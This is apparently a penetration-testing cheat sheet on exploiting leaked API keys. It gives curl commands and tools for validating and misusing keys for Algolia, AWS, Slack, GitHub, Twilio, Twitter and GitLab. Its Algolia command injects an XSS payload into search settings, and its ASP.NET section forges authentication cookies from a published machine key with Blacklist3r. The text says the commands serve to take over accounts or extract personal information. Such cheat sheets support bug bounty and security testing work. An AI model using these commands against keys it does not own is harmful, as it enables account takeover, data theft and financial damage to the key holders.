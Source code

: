 API Key Leaks
The API key is a unique identifier that is used to authenticate requests associated with your project. Some developpers might hardcode them or leave it on public shares.
Summary
•	Tools
•	Exploit
o	Google Maps
o	Algolia
o	AWS Access Key ID & Secret
o	Slack API Token
o	Facebook Access Token
o	Github client id and client secret
o	Twilio Account_sid and Auth Token
o	Twitter API Secret
o	Twitter Bearer Token
o	Gitlab Personal Access Token
o	Auth Bypass using pre-published Machine Key
Tools
•	KeyFinder - is a tool that let you find keys while surfing the web!
•	Keyhacks - is a repository which shows quick ways in which API keys leaked by a bug bounty program can be checked to see if they're valid.
Exploit
The following commands can be used to takeover accounts or extract personnal informations from the API using the leaked token.
Google Maps
Use : https://github.com/ozguralp/gmapsapiscanner/
Impact:
•	Consuming the company's monthly quota or can over-bill with unauthorized usage of this service and do financial damage to the company
•	Conduct a denial of service attack specific to the service if any limitation of maximum bill control settings exist in the Google account
Algolia
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
AWS Access Key ID & Secret
git clone https://github.com/andresriancho/enumerate-iam
cd enumerate-iam
./enumerate-iam.py --access-key AKIA... --secret-key XXX..
Slack API Token
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
Facebook Access Token
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
Github client id and client secret
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
Twilio Account_sid and Auth token
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN
Twitter API Secret
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'
Twitter Bearer Token
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'
Gitlab Personal Access Token
curl "https://gitlab.example.com/api/v4/projects?private_token=<your_access_token>"
Auth Bypass using pre-published Machine Key
By default, ASP.NET creates a Forms Authentication Ticket with unique a username associated with it, Date and Time at which the ticket was issued and expires. So, all you need is just a unique username and a machine key to create a forms authentication token
That machine key is used for encryption and decryption of forms authentication cookie data and view-state data, and for verification of out-of-process session state identification.
Example of a machineKey from https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication.
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
Exploit with Blacklist3r
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
References
•	Finding Hidden API Keys & How to use them - Sumit Jain - August 24, 2019
•	Private API key leakage due to lack of access control - yox - August 8, 2018
•	Project Blacklist3r - November 23, 2018 - @notsosecure

